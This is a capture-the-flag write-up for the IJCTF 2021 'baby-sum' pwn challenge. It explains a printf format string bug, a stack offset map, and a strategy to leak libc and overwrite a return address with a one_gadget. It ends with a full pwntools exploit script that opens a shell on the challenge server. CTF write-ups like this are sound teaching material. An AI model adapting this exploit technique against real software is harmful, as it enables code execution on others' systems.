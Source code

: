 Baby-sum was a pwn challenge from IJCTF 2021,

that was a bit tricky.

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/resume.png)

first we inspect the binary quickly to see the protections in place

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/prots.png)

ok let's reverse the program !!!!

the main function first:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/main_rev.png)

the welcome function :

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/welcome_rev.png)

in the welcome function, we are given a free address leak of a variable on stack (name),  then we can store whatever we want in name.

but strangely, this name string, is no more used later in the program... maybe we can use it for something else...(humm...)

then let's see the calc() function and vuln() function that is called from calc()  where all happens..

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/calc_rev.png)

the called vuln() function, that is obviously a format string vulnerability.. 

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/vuln_rev.png)

ok we can see now how the calc function operates,

it reads 3 inputs (0,1,2) on stack with scanf('%8s', &num),  num is a pointer on stack to numbers[] array that is incremented at each turn..

in theory the inputs are numbers, but as it uses scanf(%8s), we can send whatever we want, numbers, strings, except carriage return that will end the input.

the function vuln is called on input, as printf(input)  and is obviously a format string vulnerability.. we can check it by sending %p for example as input..

like always in format string vulns, I identify what is reachable on stack with various printf offsets (name are according to the calc() reverse above):

here are some offsets..
* 6  -->  address of start
* 7  -->  address of numbers[0]
* 8  --> next frame pointer (points to offset 16)
* 9  --> return address of vuln() from calc() 
* 10  --> numbers[0]     at [rbp-0x30]
* 11  --> numbers[1]     at [rbp-0x28]
* 12 --> sformat            at [rbp-0x20]    will be set to '%8s' at calc() beginning
* 13  -->  sum variable , undefined at beginning of calc()... (can be set via welcome() function , qword at (name string + 0x28)
* 14 -->  i variable    at [rbp-0x10]      incremented at each turn (0,1,2)
* 15  --> num pointer  at [rbp-8]      incremented at each turn, point to &numbers[0] at beginning..
* 16 --> next frame pointer (points to offset 20)
* 17 --> return address from calc()

so we quickly found that the undefined var (will be sum variable, later in calc()),  can be defined with the name input in welcome() function:

let's try...

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/input1.png)

ok it works, as you can see we, if we put a breakpoint to the printf in vuln() function we can see the 'BBBBBBBB' == 0x4242424242424242   in the 13th position reachable by printf... good...

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/dump1.png)

as we know (with the welcome leak) the variable addresses, we will put a pointer to i variable counter, in position 13, with the name input string in welcome() function..

like this we can send '%13$n' string as input when we want, to clear i variable counter...and write 3 more positions...

so our attack strategy will be:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/attack1.png)

num pointer points to &number[0]  at beginning of the loop,

we first send string "%1$p" to pass this position    (num --> pos 10)

then we send string "%13$n" to clear counter variable i    (num --> pos 11)

the we send string "%ld" that will replace "%8s" string at pos 12 (num --> pos12)

from now we can only enter numbers, as we changed the scanf format string to %ld, so we send '-'  that will write nothing to this position  (num --> pos13)

now num points to i (the counter)  we send -100 , as i is defined as a int64 and can be negative, so that we can write up to 102 values (num --> pos14)

now num points to itself on stack, good good!  we can modify it to move the place we will write on stack !! 

we set it to an address before on stack, that contains a libc address.. this address will be leaked by the puts() in vuln() function..

we got our libc leak, and with it calculate libc base,  that will be needed to calculate the one gadget address we will use in libc

now we pass the next 16 positions, be sending '-' string to scanf..

we are now again at i variable position, we send '0' to clear it (from now only 3 writes left before the calc() function return..

we pass the two next stack position, to reach the calc() function return address, that we replace with a one gadget address in libc..

and guess what ????

We got shell..


![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/gotshell.png)


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
context.update(arch="amd64", os="linux")

exe = context.binary = ELF('./baby-sum')
libc = ELF('./libc.so.6')

host = args.HOST or '35.244.10.136'
port = int(args.PORT or 10252)

io = connect(host, port)

io.recvuntil('you: ', drop=True)
# first we read the given stack leak
stack = int(io.recvuntil('\n',drop=True),16)
print('leak stack = '+hex(stack))

# the name 6th entry will be on stack untouched, so we put a pointer
name = 'A'*40+p64(stack+0x30)

io.sendlineafter('you?\n', name)

io.sendlineafter('> ', '%1$p')
io.sendlineafter('> ', '%13$n')         # clear the i counter variable
io.sendlineafter('> ', '%ld')           # replace '%8s' string by '%ld'  no we can input numbers one by one
io.sendlineafter('> ' ,'-')             # pass the input, without writing anything
io.sendlineafter('> ' ,'-100')          # overwrite i variable with -100 (after all it is an int64)
io.sendlineafter('> ', str(stack-0x58)) # overwrite num variable to point before on stack containing a libc address, to leak it

# get our libc leak & calculate libc base
libc.address = u64(io.recvuntil('\n', drop=True).ljust(8,b'\x00')) - 0x1ec6a0
print('libc base = '+hex(libc.address))

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

onegadgets = one_gadget('libc.so.6', libc.address)

for i in range(16):
  io.sendlineafter('> ' ,'-')

io.sendlineafter('> ' ,'0')		# set i counter to 0 again (3 writes is all we need)
io.sendlineafter('> ' ,'-')
io.sendlineafter('> ' ,'-')
io.sendlineafter('> ' , str(onegadgets[1]))  # write onegadget to calc() return address , at this points i>2,  so calc() will return to our onegadget

# got shell now
io.interactive()
```

